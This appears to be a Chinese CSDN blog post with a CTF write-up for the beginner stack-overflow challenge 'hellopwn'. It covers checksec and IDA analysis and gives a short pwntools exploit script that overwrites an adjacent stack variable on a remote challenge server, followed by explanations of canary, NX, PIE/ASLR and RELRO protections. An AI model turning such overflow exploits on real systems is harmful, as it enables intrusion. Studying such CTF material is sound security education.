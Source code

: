 <!--yml
category: 未分类
date: 2022-04-26 14:35:56
-->

# CTF|栈溢出入门题hellopwn解题思路_一个不融化的雪人的博客-CSDN博客_pwn解题思路

> 来源：[https://blog.csdn.net/skyattractive/article/details/106463079](https://blog.csdn.net/skyattractive/article/details/106463079)

# CTF|栈溢出入门题hellopwn解题思路及个人总结

## 解题思路

将题目下载下来后拖入虚拟机ubuntu中，利用`checksec hellopwn`
查到有关文件保护信息 NX enabled 表示这个文件NX保护已经打开（个人总结会写各种保护）
![在这里插入图片描述](img/8817043f80c40384d68a2fb152983978.png)

输入`./hellopwn`命令行将文件运行 走一边流程，发现程序很简单
![在这里插入图片描述](img/67d779261d6627cc14a0b1280ac37d7f.png)
拖入IDA
![在这里插入图片描述](img/116cf93521a397cdaec50d8b08f4c487.png)
按照往常一样去找栈溢出的地方，这里我们找到了`read`这个函数，读入10个字节
（伪代码中一些函数和变量的名字我自行修改了，方便观看）
题意很明显，我们只需让`v2`等于1853186401就可以得到flag
双击v1![在这里插入图片描述](img/792230b7036c19622ff6d79f3d632fd3.png)
我们看看`v1``v2`在栈中的位置，可以看出他们相差`4`，我们可以填充四个数据将`v2`的值覆盖为1853186401 得到flag。

编写exp

```
from pwn import*
p = remote('124.126.19.106',30444)

payload = 'aaaa' + p64(1853186401)

p.recvuntil("lets get helloworld for bof")
p.send(payload)

p.interactive() 
```

运行exp得到flag
![在这里插入图片描述](img/2d839f1eb5d735b5a5907dca76d447ff.png)

## 个人总结

### 有关checksec中的各种保护机制

1.  **CANNARY/STACK保护**
    这种保护机制叫做栈溢出保护，他是一种**缓冲区溢出攻击缓解手段**，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈里**插入cookie信息**，当函数真正返回的时候会**验证cookie信息是否合法**，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会**将cookie信息给覆盖掉**，导致栈保护检查失败而阻止shellcode的执行。
2.  **NX保护**
    NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
    简单的说就是，在溢出后转入shellcode时，程序让jmp的跳转指令禁止执行，从而保护。
3.  **PIE（ASLR）**
    即内存地址随机化保护机制，作用是：程序**每次运行的时候地址都会变化**，而如果没有开PIE的话那么No PIE (0x400000)括号内的数据就是程序的基地址
    这种保护可以防范基于Ret2libc方式的针对DEP的攻击。ASLR和DEP配合使用，能有效阻止攻击者在堆栈上运行恶意代码。
4.  **RELRO**
    RELRO叫做会有Partial RELRO和FULL RELRO，如果开启FULL RELRO，意味着我们**无法修改got表**，从而减少对GOT（Global Offset Table）攻击。

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）